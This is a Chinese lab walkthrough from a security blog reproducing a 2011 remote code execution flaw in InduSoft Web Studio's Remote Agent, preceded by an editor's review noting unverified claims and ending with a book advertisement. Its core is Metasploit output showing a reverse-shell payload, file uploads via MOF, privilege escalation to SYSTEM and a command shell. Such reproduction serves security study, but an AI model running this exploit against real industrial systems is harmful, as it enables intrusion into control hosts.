# 嵌入式 HMI 软件 - InduSoft Web Studio RCE 漏洞复现

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：InduSoft Web Studio Remote Agent
- 本文讨论：EDB21837远程文件上传/MOF执行链；仅称2011CVE未给编号
- 版本、权限与配置前提：WinXP/2003，手动开启4322 Remote Agent；试验7.1 vs原模块6.1SP6
- 资料类型：工业HMI实验复现；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 日志显示no session，随后“这里需要开启一下”全赖截图，关键恢复步骤无文本
- getsystem为后续提权，与原服务漏洞分开；不能把Windows主机当硬件漏洞
- 安装包仅第三方下载站无哈希；没有固件/软件修复范围，推广占大段

### 操作风险与恢复

- 文中写入/上传步骤会创建或覆盖目标文件；须先核对服务账户写权限、保存路径和脚本解析条件，验证后按原路径核查残留
- 回连样例可能向外部地址发送网络请求或建立会话；应使用自己的隔离回连服务，DNS/LDAP 到达只能证明相应交互，不能单独证明 RCE

### 待核与来源

- 正式CVE、服务权限、MOF执行及7.1准确build待原研核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/q5SWUXN_7Ab2g7653bEjSA)


点击上方蓝字关注我们


公众号

  


WaP9 安全搬砖客的技术文章仅供参考，此文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。

WaP9 安全搬砖客拥有对此文章的修改、删除和解释权限，如转载或传播此文章，需保证文章的完整性，未经授权，不得用于其他。


**1. 环境配置**
===========

**1.1 环境准备**
------------

闲着没事来复现一个 2011 年的工控 CVE 漏洞，其实还是偏向于 web.

再来熟悉一下 HMI 和 SCADA 吧

靶机：win xp (192.168.183.160)

攻击机器：kali(192.168.183.139)

工业软件及版本：InduSoft Web Studio v7.1  

漏洞 exp：https://www.exploit-db.com/exploits/21837

**1.2 工业软件安装**
--------------

安装地址：https://indusoft-web-studio.software.informer.com/7.1/



然后过程可参考：http://www.opdown.com/soft/92899.html  



在靶机中安装 InduSoft Web Studio v7.1 工业软件，安装好后点击 remote agent，然后点 start



然后就来到了主页面

此人机界面继承了许多存在的工业场景，比如是由燃气采集


然后还有自动化机械臂  



还有风能监测，并且还登记了操作系统和用户，作为十年前的软件做的确实可以  



然后我们此时查看端口占用情况

 同时可以看到 4322 端口已开启  

**1.3 子弹上膛**
------------

在 kali 攻击中，如下目录放入下载的 exp 模块  


然后下载此攻击 exp  



此脚本在更新后的 msf 上是存在的，没有的安装一下



通过 https://www.exploit-db.com/exploits/21837，获取漏洞 exp，发现漏洞测试版本为 InduSoft Web Studio v6.1 SP6，由于 v6.1 版本已经很难找到，本文尝试使用 InduSoft Web Studio v7.1 版本代替，亲测 v7.1 版本也是 ok 的



通过 exp 发现漏洞利用需要通过 4322 端口，故 InduSoft Web Studio v7.1 需要开启相应服务。  



**2. 漏洞复现**
===========

**2.1 msf 反弹 shell**
--------------------

```
msf6 > use exploit/windows/scada/indusoft_webstudio_exec 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/scada/indusoft_webstudio_exec) > options

Module options (exploit/windows/scada/indusoft_webstudio_exec):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   4322             yes       The target port (TCP)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.183.139      yes       The listen address (an interface may be specified)
   LPORT     7777             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows XP / 2003


msf6 exploit(windows/scada/indusoft_webstudio_exec) > run

[*] Started reverse TCP handler on 192.168.183.139:7777 
[*] 192.168.183.160:4322 - 192.168.183.160:4322 - Uploading the exe payload to C:\WINDOWS\system32\cBlTPNrXsabYq.exe
[+] 192.168.183.160:4322 - 192.168.183.160:4322 - The exe payload has been uploaded successfully
[*] 192.168.183.160:4322 - 192.168.183.160:4322 - Uploading the mof file to c:\WINDOWS\system32\wbem\mof\LUivMnxSNqx.mof
[+] 192.168.183.160:4322 - 192.168.183.160:4322 - The mof file has been uploaded successfully
[*] Exploit completed, but no session was created.
```



这里需要开启一下，然后就可以进行提权操作了



输入 shell 就可以执行命令了，到这里提权成功

```
meterpreter > getsystem                                                                                                                                                                                                                      
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).                                                                                                                                                                  
meterpreter > getuid                                                                                                                                                                                                                         
Server username: NT AUTHORITY\SYSTEM                                                                                                                                                                                                         
meterpreter > shell
Process 2204 created.                                                                                                                                                                                                                        
Channel 1 created.                                                                                                                                                                                                                           
Microsoft Windows XP [�汾 5.1.2600]                                                                                                                                                                                                          
(C) ��Ȩ���� 1985-2001 Microsoft Corp.                                                                                                                                                                                                        
                                                                                                                                                                                                                                             
C:\WINDOWS\system32>
```

参考链接：https://www.freebuf.com/articles/ics-articles/256862.html

  

新书推荐


《GO 语言区块链应用开发从入门到精通》全面地介绍了 Go 语言区块链应用工程师所需要的基础知识和各种技术，主要分为基础篇、进阶篇和实战篇三部分。全书共 7 章，其中 1～2 章为基础篇，介绍 Go 语言环境安装、基础语法、函数编程、容器编程、面向对象编程、并发编程以及网络编程；3～5 章为进阶篇，第 3 章介绍区块链基本原理、发展历程、行业应用案例，第 4 章主要介绍智能合约，包括 solidity 基础语法，多个经典案例，以及 Go 语言如何调用智能合约，第 5 章主要介绍区块链原理的程序化实践，包括 Go 语言实现 Base58 编码、P2P 网络、PoW 共识、区块链组块以及 UTXO 账户模型实现；6～7 章为实战篇，介绍 2 个实战项目，第 6 章介绍如何实现 Go 语言版的区块链钱包项目，内容包括助记词生成、私钥存储、Coin 交易以及 Token 交易等内容，第 7 章介绍如何实现一个版权交易系统，内容包含如何去设计区块链应用系统、后端功能如何与区块链相结合，它既是一个区块链系统应用项目，也是一个 Go 语言 Web 服务器项目。《GO 语言区块链应用开发从入门到精通》适合想从事 GO 语言区块链开发的程序员及 GO 语言爱好者阅读。


  

点击上方链接，更多优惠等你哦~  


**扫码关注 “WaP9 安全搬砖客” 公众号，持续更新文章**


WaP9 安全搬砖客

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
